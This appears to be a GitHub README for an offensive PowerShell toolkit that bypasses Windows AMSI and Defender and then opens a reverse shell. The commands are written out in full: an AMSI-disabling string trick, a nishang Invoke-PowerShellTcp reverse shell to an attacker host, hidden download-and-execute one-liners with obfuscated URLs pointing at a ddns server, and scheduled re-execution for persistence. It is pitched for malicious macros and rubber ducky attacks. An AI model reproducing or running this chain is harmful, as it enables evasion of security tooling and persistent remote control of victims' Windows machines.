 # Windows-AMSI-Defender-Bypass

::::Bypassing AMSI and getting a Reverse Shell
------------------------------------------------------------------------------------
Perfect for malicious macros, rubber ducky, or a RCE in a Windows System:

To make all these things work, I used a script that disables the AMSI:
From : https://amsi.fail

You can generate your own, but make sure it works.
-------------------------------------------------------------------------------------
AMSI fail script,
-----------------
fail.ps1:
---------
some of those generated scripts use the "Amsi Utils", but it gets caught by the AMSI, so i defined it outside of the code
like this:

$am='Amsi'+'U'+'til'+'s' 

--------------------------------------------------------------------------------------------
Getting the shell:
-------------------
nish.ps1: 
-----------
The TCP nishang that we always use from: https://github.com/samratashok/nishang/tree/master/Shells

Definning this at the end of the script:

Invoke-PowerShellTcp -Reverse -IPAddress example.attacker.net -Port 443 

------------------------------------------------------------------------------------------------
Running all in one:
-------------------
trigger.ps1:  
------------
This script is going to be the trigger for the 2 invokes(fail.ps1, nish.ps1), it also defines the $am variable for the fail.ps1:

$n = (new-object net.webClient);$am='Amsi'+'U'+'til'+'s';iex ($n).DownloadString('http://example.ddns.net:80/fail.ps1');iex ($n).DownloadString('http://example.ddns.net:80/nish.ps1')

------------------------------------------------------------------------------------------------------------------------------------------------

Finally we will need to "Invoke-Expression" the trigger:
--------------------------------------------------------------
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/trigger.ps1')

Every child process running from this powershell session is going to run without the AMSI, so could easily run a meterpreter from this, but make sure to obfucate it because meterpreter is way more intrusive.


---------------------------------------------

---------------------------------------------

To add an extra
-----------------
We can make it all run as many time as we want by scheduling these Invokes-Expression's:

sched.ps1:
----------
You can modify this to run whenever you want, in (New-TimeSpan -Minutes 'minutes between each run').



In this case you are going to run 2 Invokes:
                    
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/trigger.ps1')
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/sched.ps1')

You can make it run with only one Invoke by creating another .ps1.

These scripts are going to be in this repository: 
----------------------------------------
https://github.com/Filiplain/Windows-AMSI-Defender-Bypass

Make sure to define your IP or Domain into the files
And host a server where all the files are located
Don't forget the lsitener with the port that you defined in the nishang or any reverse-shell you use.


Invokes Map:
------------
                                                                 

                trigger.ps1                    
              /            \
          fail.ps1   ;  nish.ps1
                                                       



